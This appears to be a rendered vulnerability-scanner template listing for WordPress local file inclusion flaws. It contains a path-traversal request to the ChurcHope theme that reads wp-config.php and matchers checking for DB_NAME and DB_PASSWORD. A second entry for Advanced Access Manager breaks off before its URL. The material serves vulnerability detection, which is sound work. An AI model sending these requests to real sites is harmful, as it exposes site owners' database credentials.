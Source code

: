 ## Description

- WordPress ChurcHope Theme \<= 2.1 is susceptible to local file inclusion. The vulnerability is caused by improper filtration of user-supplied input passed via the 'file' HTTP GET parameter to the '/lib/downloadlink.php' script, which is publicly accessible.
- severity - high
- tags - wp,wpscan,wordpress,wp-theme,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/themes/churchope/lib/downloadlink.php?file=../../../../wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Advanced Access Manager \< 5.9.9 - Local File Inclusion

## Description

- WordPress Advanced Access Manager versions before 5.9.9 are vulnerable to local file inclusion and allows attackers to download the wp-config.php file and get access to the database, which is publicly reachable on many servers.

- severity - high
- tags - wordpress,wp-plugin,lfi,wp,accessmanager,wpscan

## Requests

- Method - GET

### URL
